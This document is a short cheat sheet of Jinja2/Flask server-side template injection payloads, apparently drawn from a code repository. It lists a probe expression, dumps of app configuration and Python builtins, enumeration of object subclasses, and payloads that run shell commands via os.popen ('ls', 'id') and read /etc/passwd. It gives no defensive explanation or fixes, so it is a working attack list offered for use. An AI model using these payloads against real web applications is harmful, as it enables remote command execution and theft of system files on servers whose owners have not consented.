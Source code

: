 ### TESTING INJECTION CAPABILITIES
{{7*'7'}}

### CONFIGURATION OF THE SYSTEM
{{ config }}

### ALL AVAILABLE CLASSES
{{ "".__class__.__mro__[1].__subclasses__() }}

### SEE PERMISIONS ON THE DIRECTORIES
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls -lah").read() }}

### SEE BUILTINS
{{ self.__init__.__globals__.__builtins__ }}

### READ ETC/PASSWD
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

### READ ALL DIRECTORIES IN / PARTITION
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls /").read() }}

### INFO ON THE USER
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

### SEE CONFIG FILES OF THE DOCKER
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

